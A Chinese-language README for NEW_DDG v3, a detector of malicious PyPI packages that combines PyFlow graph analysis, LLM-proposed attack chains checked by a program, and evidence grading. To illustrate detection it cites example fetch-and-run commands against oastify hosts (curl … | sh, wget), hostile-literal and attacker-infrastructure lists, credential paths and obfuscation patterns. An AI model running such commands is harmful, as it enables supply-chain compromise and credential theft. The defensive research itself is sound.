

<div align="center">

# 🛡️ NEW_DDG v3

**LLM 构建攻击链，图结构保证真实性**
**面向 PyPI 恶意包的证据分级检测系统**

[](https://www.python.org/downloads/)
[-orange.svg)](https://github.com/ZJU-PL/pyflow)
[](LICENSE)
[](tests/)
[](https://open.bigmodel.cn/)

*PyFlow 分析底座 · 能力中性 SSO · 函数目录 + 簇交付 · LLM 自构建链路 · 程序验证 · 两阶段异构模型*

[English](README.md) | [简体中文](README_zh.md)

</div>

---

## v3 改了什么

v2 的每个分析部件都是手写的：DDG 构建器、污点引擎、SSO 提取器、覆盖度估计。
每一个都能工作，但每一个都是对已解决问题的更弱复现——而且建图在 1000 文件的包上
要跑几分钟，还经常超时。

v3 把分析底座换成 [PyFlow](https://github.com/ZJU-PL/pyflow)（IFDS 框架，
ZJU-PL，[arXiv:2608.07026](https://arxiv.org/abs/2608.07026)），判定层保留。变化：

| | v2 | v3 |
|---|---|---|
| **分析引擎** | 手写 DDG + 污点 | PyFlow IFDS + GIR + 调用图 + 别名 |
| **大包** | 全量建图，40 分钟，频繁超时 | 常规 2–7 秒，硬预算 60 秒 |
| **交给模型的单元** | 按预算切块（文件→函数→256 节点） | **函数目录 → 簇**（种子 + 2 跳调用闭包） |
| **模型分工** | 单模型，四条互不相干的 LLM 路径 | **小模型提链，大模型判定**（真正接线） |
| **分析不完整** | 未建模 | **覆盖度门控：unknown ≠ safe** |
| **混淆** | 源码文本正则 | **marshal 常量表检查 + 有界多层剥离** |
| **实测（100+100）** | 召回 90% / 硬误报 0% | **召回 98% / 硬误报 0% / 疑似 7%** |

引擎是他们的；上面四层是我们的：PyPI 威胁模型实例化、执行时机分类、
语句级过程间边、覆盖度门控的证据分级。

---

## 解决什么问题

面向包注册表的静态恶意检测有两条互补的失败路径：

**规则型工具**（正则/启发式扫描器）给出的判决看似合理但无证据支撑。正则看到
`exec(` 就判恶意——直到它跑在 `cffi`、`packaging`，或任何构建期合法生成代码的项目上。
在恶意语料上召回漂亮，到真实注册表上精度崩塌。

**单次 LLM 判断**让模型读完一个包然后回答"是否恶意"。它展示不了推理过程，
会幻觉出不存在的函数，也无法区分"没找到攻击"和"我没认真看"。

NEW_DDG 取第三种立场：**图是证据，LLM 提议穿过图的路径，程序检查每一跳。**
判决不是模型对代码观感的复述，而是一个可以对着图重新验证的主张。

---

## 系统架构（v3）



### 三层分工

| 层 | 谁 | 擅长 | 绝不能做 |
|---|---|---|---|
| **确定性** | 程序 | 解析、建边、验证、覆盖度 | 判断意图 |
| **机械性** | 小模型 | 走图、提议候选路径 | 决定判决 |
| **语义性** | 大模型 | 识别意图、发现惯用法错位 | 发明证据 |

---

## 图构建：站在 PyFlow 上，补它没有的四样

PyFlow 提供分析，不提供恶意判决。上面必须补四层。

### 1. 能力映射（20 类通用 → 11 类攻击链位置）

PyFlow 按**漏洞影响面**分类；我们按**攻击链位置**分类。
`information.credentials` 变成一等公民的 Tier-1 能力（读凭据是攻击链起点，
不是"读文件"）。`module.loader_mutation` 映射到 `code_eval`——那是只存在于
PyPI 威胁模型里的 `.pth`/`sitecustomize` 持久化面。

### 2. 执行时机（PyPI 特有）

```python
setup.py 顶层        → install    # pip install 就执行
__init__.py 顶层     → import     # import 就执行
setup.py 里的任何代码 → install    # cmdclass 钩子写在类方法里
其它文件的函数体      → runtime
```

Cerebro（TOSEM 2025）测得 **69.8% 的恶意 PyPI 包在安装期触发**。
载荷放在 `class InstallScripts(install_scripts).run()` 里就是安装期代码，
哪怕它在函数体内——v2 把它算成 `runtime`，整个包漏掉。

### 3. 语句级过程间边

PyFlow 的 DDG 是过程内的，调用图是函数级的（每对函数一条边）。
三文件链 `config.py → utils.py → runner.py` 会变成三个孤岛。GIR 的调用语句
带被调函数名，于是我们建：

```
调用语句        → 被调函数首语句      (kind=call)
被调函数 return → 调用语句            (kind=return)
逃逸的值        → 被调函数入口        (kind=param，来自 escape 事件)
```

在三文件合成包上验证：`decode(transform.py) → data(main.py) → os.system(main.py)`
被重建成一条连通路径。

### 4. IOC 目标感知

`requests.post` 在任何分类体系里都是汇点。但 API 客户端发往自己的服务端、
和窃密程序发往 `45.77.12.9`，是**同一个类别、相反的意图**。所以我们给目的地分类：

| 分类 | 例子 | 效果 |
|---|---|---|
| `attacker_infra` | 裸 IP、oastify/interactsh、webhook.site、pastebin、telegram-bot、矿池 | 定罪 |
| `package_own` | 形态正常的域名、无恶意特征 | 不定罪 |
| `dynamic` | `self._address + path`、f-string | 维持可疑 |
| `none` | 没有任何网络形态 | 回落到通用规则 |

---

## 交付方式：函数目录，不是预算切片

9,959 个节点的图塞不进 prompt。v2 按大小切，会在任意边界切断链路，
还会把共犯彼此藏起来。v3 按相关性选：

```
① 把图压成函数目录
     file::name  L12-40  18stmt  [process_spawn, env_access]  in3/out7  install  score=21.9

② 给每个函数打分（确定性、可审计）
     能力等级（Tier-1 = 10）+ log(出入度) + install/import (+6)
     + 敌意字面量 (+8) + 跨文件 (+2) − 测试目录 (×0.25)

③ 种子 → 簇
     种子 + 2 跳调用闭包（data/call/return 边，跨文件）
     + 成员之间短路径上的中间函数（≤4 跳）
     上限：每簇 6 函数 / 900 语句

④ 一个簇 = 一个块，整体交付
```

在真实混淆样本上实测（9,959 节点 / 585 函数）：8 个簇，每簇 52–402 语句，
载荷函数排第 2，并且和它调用的函数捆绑在一起。

**为什么按簇而不是按函数**：如果 `A` 读凭据、`B` 发送，单独看各自清白。
拆开它们，就复现了整个设计要防止的"拆分攻击"。

---

## 两阶段模型：小的提议，大的判定

| 阶段 | 模型 | 输入 | 任务 |
|---|---|---|---|
| **一** | GLM-4-Flash | digest，≤700 节点 | 走图，输出节点 ID 序列 |
| — | 程序 | 图 | 验证每一跳；拒绝幻觉节点/边 |
| **二** | GLM-4-Plus | 只有已验证路径 + PKG-INFO | 判定意图、发现惯用法错位 |

成本是阶梯式的：只有便宜模型找到可验证的东西，贵模型才出场。

**反幻觉契约**（写在代码里，不是写在 prompt 里）：

- 每个节点 ID 必须在图中存在
- 每一跳必须对应真实边（方向不限，同语句容忍）
- 合法前缀保留为 `partial` 路径（≥2 步且 ≥50%）
- 单节点主张必须含敌意字面量（`/dev/tcp`、`-EncodedCommand`、矿池、`curl … | sh`）
- `MALICIOUS` 但没有验证路径 → 降为 `SUSPICIOUS`

因为节点 ID 按 `md5(node_id)` 排序分配而非图序，模型不可能不沿边走就"顺着"
N1 → N2 → N3 编出一条链。

---

## 混淆：读字节码，而不只是读文本

混淆藏住的是**逻辑**，不是 **API 表面**。实测六级：

| 级别 | 形态 | 结果 |
|---|---|---|
| L1 | `getattr(os, "sys"+"tem")` | ✅ 常量折叠还原 |
| L2 | `__import__(b64decode("b3M="))` | ✅ 抓到 resolver 原语 |
| L3 | 自定义解码函数 | ⚠️ 只能看到 `__import__` |
| L4 | 运行时密钥 | ⚠️ 只能看到 `env` + `__import__` |
| L5 | `exec(marshal.loads(b64))` | ✅ **不解执行就读出常量表** |
| L6 | base64→zlib 三层 | ✅ 全剥开 |

**L5 是关键。** `marshal.loads` 只反序列化、不执行，所以我们遍历
`co_consts` / `co_names` 把载荷掏出来：

```python
exec(marshal.loads(b64decode(blob)))
  →  co_consts: ('curl http://x.oastify.com/p | sh',)
  →  co_names:  ('os', 'system')
```

多层剥离限 3 层，并收集每一层的可读中间结果——URL 常常在中间层。
解码结果**绝不执行**，只做正则扫描并呈现给模型。

**良性混淆不被惩罚。** Cython 产物、PyArmor 保护的 SDK、压缩资源同样是混淆的，
所以混淆本身没有权重。区分规则是**流向**：混淆产物最终流向
`exec`/`subprocess`/`socket` 的是恶意；停留在数据层的是良性。

---

## 证据分级

| 层级 | 例子 | 能否单独定罪 |
|---|---|---|
| **事实性** | PyPI 404、验证过的安装钩子、代码克隆 | ✅ |
| **结构性** | 强源 → 执行/外传汇点的验证链 | ✅（配合判定） |
| **语义性** | 大模型对验证路径的判断 | ✅ 需结构支撑 |
| **启发式** | 正则命中、弱链（`env → exec`）、名称相似 | ❌ 永不定罪，最多 SUSPICIOUS |
| **覆盖度** | "跳过了 40% 的条目" | ❌ 只能阻止判 BENIGN |

两条规则让分级保持诚实：

- **弱源 → 执行永不定罪。** `file_read → exec` 正是 setuptools-scm 在约 5 万个包里的写法。
- **unknown ≠ safe。** 如果 PyFlow 报告跳过超过 30% 的条目且没发现 Tier-1 能力，
  判决不能是 `BENIGN`。

---

## 评测

### v3：100 恶意 + 100 良性（同 seed、同管线）

| | 恶意（100） | 良性（100） |
|---|---|---|
| **MALICIOUS** | **98（98%）** | **0（0%）** |
| SUSPICIOUS | 1 | 7（7%） |
| BENIGN | 1 | 93 |

### v2：500 + 500（上一代架构，同语料族）

| | 恶意（500） | 良性（500） |
|---|---|---|
| MALICIOUS | 92.4% | 1.4%（7 个里 2 个事后确认为真恶意） |
| SUSPICIOUS | 7.2% | 6.2% |
| ANALYSIS_FAILED | **0** | 0 |

### v2 → v3 的八个点从哪来

召回 +8 点，误报零增长。**不是调阈值**，是七个静默失败——每一个都让一个
"看起来在工作"的功能实际上没跑：

| # | 失败 | 影响 |
|---|---|---|
| 1 | 整图快照在 `try` 块内赋值 | 0 边包静默跳过块分析 |
| 2 | 簇 dict 被当 4 元组解包 | 两阶段扫描抛异常被吞掉 |
| 3 | shim 用 `绝对路径_行_列` 建键、边却查 `相对路径_行_列` | **PyFlow 后端整条管线一直产 0 边** |
| 4 | `_nid` 漏在 `__slots__` 外 | 第一个包就 AttributeError |
| 5 | taint 在 `not edges` 时提前返回 | 字面量载荷的 dropper 永远没有链 |
| 6 | 凭据路径不是污点源 | `~/.kube/config` + `~/.ssh/id_rsa` 窃取被判成 `file_read` |
| 7 | `setup.py` 里的函数体被判为 `runtime` | `cmdclass` 安装钩子完全隐形 |

其中三个**不报错、不告警、不留日志**。教训已经写进测试：每道门都有
"它确实被触发过"的断言。

### 为什么 7% 良性维持 SUSPICIOUS

这七个是 `intuit_oauth`、`nvgpu`、`mslex`、`pylint-celery`、`edn_format`、
`allpairspy`、`python_path`。它们确实动用了恶意级能力：

- `intuit_oauth` 读取并传输 OAuth 凭据——这是它的设计目的
- `nvgpu` 通过 `ctypes` 调用原生 GPU 库
- `edn_format` 反序列化不可信输入

判 SUSPICIOUS 是**正确的，不是缺陷**。系统目前只收集**负面证据**（没找到链），
还没有收集**合法性正面证据**。那是下一个架构部件，不是要调的阈值。

---

## 定位

| 工作 | 引擎 | 判定层 | 目标 |
|---|---|---|---|
| **PyFlow**（ZJU-PL, ASE'26） | IFDS + 别名 + GIR | 无（SAST findings，CWE 标注） | 漏洞 |
| **MalSkills**（ASE'26） | Semgrep 2665 条规则 + LLM 神经提取 | 符号模式 + LLM 补缺口 | agent skills |
| **Cerebro**（TOSEM'25） | 16 特征 + 调用图序列 | 微调 BERT | npm + PyPI |
| **GuardDog** | YARA + 启发式 | 风险分 | PyPI/npm |
| **NEW_DDG v3** | **PyFlow**（依赖） | **LLM 建链 + 程序验证 + 证据分级** | PyPI |

与 PyFlow 的关系是刻意的：我们依赖它而不是重写它，并且引用它。
同一份语料上，PyFlow 自己的 `security` 引擎把
`os.system('wget https://…oastify.com/test')` 报成 *B605 shell 注入，严重度 Low*
——它看到的是代码异味，不是恶意软件。那个缺口就是我们的层。

---

## 已知限制

1. **7% 良性 SUSPICIOUS** —— 有能力证据、缺意图证据。需要合法性通道
   （目的地一致性、生态年龄、文档匹配），而不是降阈值。
2. **跨函数边仍比函数内边粗** —— 函数内到语句级、跨调用到语句级，但没有完整指针分析。
3. **自定义 VM 与运行时密钥加密仍然不透明。** 静态能恢复能力，恢复不了载荷。
4. **成本不对称** —— 良性包比恶意包慢约 5 倍，因为歧义会触发簇分析。
5. **100 样本的置信度** —— 0/100 误报的 95% 上界约 3%。1000+1000 正在跑以收紧。

### 路线图

| 阶段 | 工作 |
|---|---|
| **A** | 合法性通道 —— 能把 SUSPICIOUS → BENIGN 的正面证据（永不定罪） |
| **B** | `sys.addaudithook` 沙箱 —— 跑 `setup.py` 并拦截文件/网络，5–15 秒/包，只在静态 SUSPICIOUS 时触发 |
| **C** | 指针分析支撑的操作数解析，让 `self._address` 能落到具体端点 |
| **D** | 动态作为第四档证据 —— **绝不**作为清白的证明 |

---

## 快速开始

```bash
pip install -r requirements.txt

# 可选：PyFlow 底座（需要 Python >= 3.10）
python3.10 -m venv pfenv && ./pfenv/bin/pip install git+https://github.com/ZJU-PL/pyflow.git
export PYFLOW_BIN=$PWD/pfenv/bin/pyflow

# v3 管线
python batch_solution_b_v2.py ./packages \
    --api-key "$GLM_API_KEY" \
    --graph-backend pyflow \
    --llm-pipeline two_stage \
    --llm-model-small glm-4-flash \
    --llm-model-big glm-4-plus \
    --pyflow-capability-model config/pypi_capability_model.json

# 离线 / 无 PyFlow：自动回落到内置 DDG
python batch_solution_b_v2.py ./packages --api-key "$GLM_API_KEY"
```

| 参数 | 默认 | 含义 |
|---|---|---|
| `--graph-backend {builtin,pyflow}` | `builtin` | 分析底座；PyFlow 缺失时自动回落 |
| `--llm-pipeline {single,two_stage}` | `single` | `two_stage` = 小的提议、大的判定 |
| `--llm-model-small` / `--llm-model-big` | 回落到 `--llm-model` | 两阶段模型 |
| `--pyflow-max-seconds` | 60 | 单命令时间预算 |
| `--coverage-max-skip` | 0.30 | 跳过条目占比超过此值则禁止 BENIGN |
| `--no-block-scan` | 关 | 关闭簇分析（消融） |
| `--no-cross-scope` | 关 | 关闭边界边 + 全图链分发（消融） |

---

## 输出格式

```json
{
  "package_name": "requsets-2.28.1",
  "final_category": "MALICIOUS",
  "graph_backend": "pyflow",
  "llm_pipeline": "two_stage",
  "capabilities": {"code_eval": 12, "credential_access": 3, "network_out": 108},
  "execution_phases": {"runtime": 641, "import": 2, "install": 7},
  "coverage": {"skip_ratio": 0.0, "allow_benign": true},
  "block_scan": {"verdict": "MALICIOUS", "blocks_analyzed": 8, "valid_paths": 2},
  "voting_summary": "验证链: exec(base64 载荷) → urlopen(cyberresearch…)",
  "subgraph_verdicts": [{"final_verdict": "MALICIOUS", "taint_chain_count": 1}]
}
```

---

## 项目结构

```
src/
  pyflow_backend.py       PyFlow → 规范图（节点/边/能力/覆盖度）
  engine_merge.py         SSO ∪ PyFlow 能力、执行时机
  function_catalog.py     函数打分、top-N、簇选择
  coverage_gate.py        unknown ≠ safe
  graph_digest.py         图 → LLM 可读文本（短 ID、IOC、escape）
  llm_graph_analyst.py    阶段一：提链 + 验证
  two_stage_judge.py      阶段二：判定
  taint_engine.py         source→sink 链、硬编码/编码载荷证据
  target_awareness.py     外传目的地分类
  literal_decoder.py      base64/hex/zlib/marshal 静态解码
  sso_extractor.py        能力中性 SSO 提取（常量折叠）
  enhanced_detector.py    事实通道（安装钩子、registry、工件）
  artifact_scanner.py     非 Python 工件（.pth/.sh/data_files）
  benign_context.py       确定性降权（测试夹具、版本惯用法）
config/pypi_capability_model.json   PyPI 威胁模型模式（PyFlow 扩展点）
tests/                    19 个文件、300+ 断言
```

---

## 参考

```bibtex
@misc{pyflow2026,
  title={PyFlow: An Inter-procedural Static Analysis Framework for Python},
  author={Gu, Zinan and Yan, Haoxiang and Yao, Peisen},
  year={2026}, eprint={2608.07026}
}

@inproceedings{malskills2026,
  title={MalSkills: Detecting Malicious Skills in the Agentic Supply Chain
         via Neuro-symbolic Reasoning},
  author={Wang, Shenao and He, Junjie and Zhao, Yanjie and Wang, Yayi
          and Yu, Kan and Wang, Haoyu},
  booktitle={ASE}, year={2026}
}

@article{cerebro2025,
  title={Killing Two Birds with One Stone: Malicious Package Detection in NPM
         and PyPI using a Single Model of Malicious Behavior Sequence},
  journal={ACM TOSEM}, year={2025}, doi={10.1145/3705304}
}

@inproceedings{christodorescu2005semantics,
  title={Semantics-Aware Malware Detection},
  author={Christodorescu, Mihai and Jha, Somesh and Seshia, Sanjit A.
          and Song, Dawn and Bryant, Randal E.},
  booktitle={IEEE S\&P}, pages={32--46}, year={2005}
}
```

## 许可证

MIT
